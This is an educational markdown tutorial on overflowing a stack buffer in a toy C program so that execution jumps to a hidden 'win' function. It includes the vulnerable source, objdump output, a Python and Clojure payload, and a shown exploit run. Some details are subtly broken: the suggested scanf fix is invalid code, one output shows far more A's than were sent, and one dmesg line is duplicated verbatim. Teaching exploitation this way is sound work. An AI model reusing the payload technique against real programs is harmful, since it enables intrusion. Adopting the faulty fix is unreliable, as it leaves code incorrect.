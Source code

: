 # Return Oriented Programming

## Introduction

When we try to access (read from or write to) a memory address that isn't
actually mapped to our process, the kernel sends a SIGSEGV (Segmentation
Fault), (usually) killing our process.

```c
int main() {
    // create a pointer to the address 0 and dereference it
    *((int*)0) = 0;
}
```

Note that `dmesg` helpfully tells us the position of the instruction pointer
`ip` (where the segfault occurred).

```sh
gcc segv.c

./a.out
# Segmentation fault

sudo dmesg
# [ 2342.736665] a.out[758]: segfault at 7f4b9bfea620 ip 00007f4b9bfea620 sp 00007ffdcf0a0778 error 15 in ld-2.31.so[7f4b9bfea000+1000]
```

## Buffer Overflow

```c
#include <stdio.h>
#include <string.h>

#define SECRET_PHRASE "bed bananas"

void win() {
    printf("You may now get yourself a piece of the great cake!\n");
}

void main(int argc, char **argv) {
    char pass[12] = {0};
    printf("What is the secret phrase?\n");
    scanf("%[^\n]", pass);
    if (0 == (strncmp(SECRET_PHRASE, pass, sizeof(SECRET_PHRASE)))) {
        win();
    } else {
        printf("The secret phrase is not: %s\n", pass);
    }
}
```

The above code is susceptible to a buffer overflow attack.
Scanf reads the entire input line into `pass` buffer, input longer than 12
(ASCII) characters will overwrite memory further down (or up, considering that
on x86 the stack grows from high to low memory addresses) the stack.

```c
scanf("%[^\n]", pass);
```

A more correct version would be:

```c
scanf("11%[^\n]", pass);
```

## Stack Canaries

GCC with its default options puts some sort of security check in place.

```sh
gcc exploitable.c
printf 'A%.0s' {1..40} | ./a.out

# What is the secret phrase?
# The secret phrase is not: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
# *** stack smashing detected ***: terminated
# Aborted

sudo dmesg
# [ 3491.530583] a.out[954]: segfault at 7f0041414141 ip 00007f0041414141 sp 00007fffcc4bdc20 error 14 in libc-2.31.so[7f8bfc9c3000+22000]
```

So let's compile with `clang` instead.

## Locating the Return Address

The return address is located somewhere at the bottom of the stack frame.
When returning, the return address is loaded into the IP register and execution
continues at that address.

ASCII 'A' is hex 0x41:

```sh
clang exploitable.c
printf 'A%.0s' {1..40} | ./a.out

# What is the secret phrase?
# The secret phrase is not: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
# Segmentation fault

sudo dmesg
# [ 3926.193998] a.out[954]: segfault at 7f0041414141 ip 00007f0041414141 sp 00007fffcc4bdc20 error 14 in libc-2.31.so[7f8bfc9c3000+22000]
```

Pay special attention to the line `segfault at 7f0041414141`.

By playing around with the amount of 'A's we send, we can figure out that after
36 of them, the return address begins.

<details>
    <summary>Tips & Tricks</summary>

    Another way is to generate a random string with no repeating patterns.
    Then just match the pattern from the IP against your input string to find
    the exact position.
</details>

## Address of the Win Function

To make it easy for us we assume that the binary executable is not "stripped",
meaning that information about function names is still intact.

This is the function we would like to "return" to:

```sh
objdump -d -M intel_syntax a.out

# ... SNIP ...
#
# 0000000000401160 <win>:
#   401160:       55                      push   rbp
#   401161:       48 89 e5                mov    rbp,rsp
#   401164:       48 bf 04 20 40 00 00    movabs rdi,0x402004
#   40116b:       00 00 00
#   40116e:       b0 00                   mov    al,0x0
#   401170:       e8 cb fe ff ff          call   401040 <printf@plt>
#   401175:       5d                      pop    rbp
#   401176:       c3                      ret
#   401177:       66 0f 1f 84 00 00 00    nop    WORD PTR [rax+rax*1+0x0]
#   40117e:       00 00
#
# ... SNIP ...
```

## Crafting a Payload

Using Python we can easily craft a malicious input string...

```sh
python3 -c 'print("A" * 36 + "\x60\x11\x40\x00\x00")'
```

...where `6011400000` is the address of the `win` function.

Note that we had to convert the endianness to match that of our CPU.

Or if you're scared of snakes, maybe try Clojure:

```sh
clojure -e "(println (apply str (concat (repeat 36 \A) (map char '(0x60 0x11 0x40 0x00 0x00)))))"
```

## Read, Set, Exploit!

```sh
python3 -c 'print("A" * 36 + "\x60\x11\x40\x00\x00")' | ./a.out
What is the secret phrase?
The secret phrase is not: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA<garbled text>
You may now get yourself a piece of the great cake!
Segmentation fault
```

As you can see from the output, the `win` function was run, between `main`
returning and a segfault.
